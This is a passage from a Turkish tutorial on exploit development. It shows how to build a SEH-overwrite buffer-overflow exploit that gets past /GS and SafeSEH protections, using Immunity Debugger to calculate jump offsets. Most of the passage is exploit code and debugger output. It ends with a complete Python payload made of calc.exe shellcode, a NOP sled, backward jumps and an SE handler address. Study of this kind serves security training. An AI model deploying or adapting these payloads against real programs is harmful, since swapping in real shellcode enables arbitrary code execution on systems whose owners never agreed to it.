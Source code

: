 	boyut = 524                                          #524 oldu lakin alta 4 byte jmp kodu ekledik
	cokertkaarsim  = "\x90" * 24
	cokertkaarsim += "\xcc\xcc"                          #Shellcode buraya gelecek
	cokertkaarsim += "\x90" * (boyut-len(cokertkaarsim ))#SEH'e kadar NOP ekleyelim
	cokertkaarsim += "\xcc\xcc\xcc\xcc"                  #Yeni Jump (528-4)
	cokertkaarsim += "\xeb\xf9\x90\x90"                  #Jump Back 7 Byte (Next SEH)
	cokertkaarsim += struct.pack('<I', 0x00270b0b)       #call dword ptr [ebp+30h] (SE Handler)

Şimdi programı Immunity debuggerda açıp exploiti çalıştırıyoruz, ardından `CTRL+G` ile `0012fd98` adresine gidiyoruz. Burada bizim Jump back 7 byte bulunuyor, yani next seh. Ardından Buranın adresi ile, shellcodemuzun üstünde bulunan nopların adresi arasındaki farkı bulup, bunu opcodeunu oluşturuyoruz.

Adreste şöyle bir şey görmeniz gerekiyor:

	0012FD96   CC             INT3
	0012FD97   CC             INT3   ---> Buraya NOPlara giden JUMP gelecek
	-> 0012FD98  ^EB F9       JMP SHORT 0012FD93
	0012FD9A   90             NOP
	0012FD9B   90             NOP

`0012FD97` adresi bizim exploitimizde Yeni Jump diye geçen kısım. Yani bu adresten shellcodemuzun olduğu adrese olan uzunluğu bulmalıyız. Yine Immunity aracılığıyla yukarıya doğru çıkıp shellcodemuzu buluyoruz ardından son işlemleri yapacağız.

![](/files/gssafesehnoplarbulundu.png)

Gördüğünüz üzre bizim shellcodemuz `0012FBA0` adresinde başlıyor. Bunun üzerinden bir alan seçiyorum(**0012FB94**) ve şimdi buraya olan uzunluğu hesaplıyoruz :  `0x0012FB94-0x0012FD97=-0x203 = 515 byte` ardından `0012FD98` adresine gidip, onun üzerinde bulunan yere jmp kodumu yazıyor(space) ve opcode değerini öğreniyorum. 

![](/files/gssafesehdegeriogrendik.png)

Opcode değeri `E9 F8FDFFFF`, dikkat ederseniz bu değer 5 byte. Yani bu demektir ki boyut kısmı olan **524**'ü da bir azaltıp **523** yapacağız. Şimdi son hamlemizi yapıp bulduklarımızı exploite yerleştiriyoruz ve denememizi yapıyoruz. Son kez exploitimizi görelim.

	boyut = 523
	cokertkaarsim = "\x90" * 24
	cokertkaarsim += "\x31\xdb\x64\x8b\x7b\x30\x8b\x7f"   #calc.exe shellcode
	cokertkaarsim += "\x0c\x8b\x7f\x1c\x8b\x47\x08\x8b"
	cokertkaarsim += "\x77\x20\x8b\x3f\x80\x7e\x0c\x33"
	cokertkaarsim += "\x75\xf2\x89\xc7\x03\x78\x3c\x8b"
	cokertkaarsim += "\x57\x78\x01\xc2\x8b\x7a\x20\x01"
	cokertkaarsim += "\xc7\x89\xdd\x8b\x34\xaf\x01\xc6"
	cokertkaarsim += "\x45\x81\x3e\x43\x72\x65\x61\x75"
	cokertkaarsim += "\xf2\x81\x7e\x08\x6f\x63\x65\x73"
	cokertkaarsim += "\x75\xe9\x8b\x7a\x24\x01\xc7\x66"
	cokertkaarsim += "\x8b\x2c\x6f\x8b\x7a\x1c\x01\xc7"
	cokertkaarsim += "\x8b\x7c\xaf\xfc\x01\xc7\x89\xd9"
	cokertkaarsim += "\xb1\xff\x53\xe2\xfd\x68\x63\x61"
	cokertkaarsim += "\x6c\x63\x89\xe2\x52\x52\x53\x53"
	cokertkaarsim += "\x53\x53\x53\x53\x52\x53\xff\xd7"
	cokertkaarsim += "\x90" * (boyut-len(cokertkaarsim ))
	cokertkaarsim += "\xe9\xf8\xfd\xff\xff"               #Geriye JMP 515 bayt
	cokertkaarsim += "\xeb\xf9\x90\x90"                   #Geriye JMP 7 bayt (Next SEH)
	cokertkaarsim += struct.pack('<I', 0x00270b0b)        #call dword ptr [ebp+30h]
